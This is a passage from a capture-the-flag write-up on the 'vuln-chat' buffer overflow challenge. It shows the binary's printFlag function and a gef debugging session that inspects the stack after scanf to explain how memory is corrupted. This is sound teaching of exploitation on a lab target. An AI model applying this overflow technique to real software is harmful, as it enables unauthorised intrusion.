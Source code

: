 ```
void printFlag(void)

{
  system("/bin/cat ./flag.txt");
  puts("Use it wisely");
  return;
}
```

So let's take a look at how the memory is corrupted during the exploit. First I set a breakpoint for right after the second scanf call:

```
gef➤  b *0x8048639
Breakpoint 1 at 0x8048639
gef➤  r
Starting program: /Hackery/pod/modules/bof_callfunction/tu17_vulnchat/vuln-chat
----------- Welcome to vuln-chat -------------
Enter your username: 15935728
Welcome 15935728!
Connecting to 'djinn'
--- 'djinn' has joined your chat ---
djinn: I have the information. But how do I know I can trust you?
15935728: 75395128
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────── registers ────
$eax   : 0x1       
$ebx   : 0x0       
$ecx   : 0x1       
$edx   : 0xf7fb089c  →  0x00000000
$esp   : 0xffffd030  →  0xffffd063  →  "%30s"
$ebp   : 0xffffd068  →  0x00000000
$esi   : 0xf7faf000  →  0x001d7d6c ("l}"?)
$edi   : 0x0       
$eip   : 0x08048639  →  <main+175> add esp, 0x8
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063
───────────────────────────────────────────────────────────────────── stack ────
0xffffd030│+0x0000: 0xffffd063  →  "%30s"     ← $esp
0xffffd034│+0x0004: 0xffffd03b  →  "75395128"
0xffffd038│+0x0008: 0x37049a10
0xffffd03c│+0x000c: "5395128"
0xffffd040│+0x0010: 0x00383231 ("128"?)
0xffffd044│+0x0014: 0xffffd104  →  0xffffd2b4  →  "/Hackery/pod/modules/bof_callfunction/tu17_vulncha[...]"
0xffffd048│+0x0018: 0xffffd10c  →  0xffffd2f2  →  "CLUTTER_IM_MODULE=xim"
0xffffd04c│+0x001c: 0x31e076a5
─────────────────────────────────────────────────────────────── code:x86:32 ────
    0x8048630 <main+166>       lea    eax, [ebp-0x5]
    0x8048633 <main+169>       push   eax
    0x8048634 <main+170>       call   0x8048460 <__isoc99_scanf@plt>
 →  0x8048639 <main+175>       add    esp, 0x8
    0x804863c <main+178>       push   0x80487ec
    0x8048641 <main+183>       call   0x8048410 <puts@plt>
    0x8048646 <main+188>       add    esp, 0x4
    0x8048649 <main+191>       mov    eax, ds:0x8049a60
    0x804864e <main+196>       push   eax
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "vuln-chat", stopped, reason: BREAKPOINT
───────────────────────────────────────────────────────────────────── trace ────
[#0] 0x8048639 → main()
────────────────────────────────────────────────────────────────────────────────

```